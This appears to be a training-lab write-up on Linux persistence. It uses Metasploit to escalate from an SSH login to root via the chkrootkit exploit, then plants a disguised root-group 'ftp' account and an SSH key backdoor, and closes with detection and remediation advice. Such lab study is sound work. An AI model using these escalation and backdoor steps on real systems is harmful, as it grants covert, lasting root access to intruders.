# Establishing Persistence on Linux

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.229.4.3) — Ubuntu, OpenSSH 7.6p1<br>
**Credentials:** `jackie:password`

## 1. Executive Summary

Starting from an SSH login as `jackie`, we escalate to root via the **chkrootkit** exploit
(CVE-2014-0476), then establish two persistence mechanisms: a **hidden service account**
(`ftp`, UID manipulated, added to the root group) and an **SSH key backdoor** via the
`sshkey_persistence` post module, allowing key-based re-entry at will.

## 2. Access & Privilege Escalation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.229.4.3
services
```







Logging in via `ssh_login` (jackie:password) and upgrading to Meterpreter.



Escalating to root with the chkrootkit exploit.

```bash
use exploit/unix/local/chkrootkit
set SESSION 2
run
```





## 3. Persistence A — Hidden Service Account

```bash
shell
cat /etc/passwd
```





Creating an `ftp` account that blends in as a service account.

```bash
useradd ftp
passwd ftp
```




Adding it to the **root** group and manipulating its UID to 15 (low, service-like) so it is
privileged yet inconspicuous.

```bash
usermod -aG root ftp
# edit /etc/passwd: set ftp UID to 15
```





## 4. Persistence B — SSH Key Backdoor

```bash
background
use post/linux/manage/sshkey_persistence
set SESSION 2
set CREATESSHFOLDER true
exploit
```

The module plants our public key in `authorized_keys` (creating `.ssh` folders as needed)
and outputs a private key.






Saving the private key, we can now reconnect over SSH any time — even after terminating all
current sessions.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@192.229.4.3
```






## 5. Detection & Remediation Recommendations

1. **Upgrade chkrootkit** (CVE-2014-0476) to close the initial escalation.
2. **Audit accounts** — alert on new users, UID/GID anomalies, and membership in the root
   group; a low-UID "service" account is a red flag.
3. **Monitor `authorized_keys`** across all home/`.ssh` folders (file integrity monitoring)
   and unexpected `.ssh` directories under system paths like `/bin`, `/dev`.
4. **Apply least privilege** and centralise auth/logging so persistence attempts are visible.
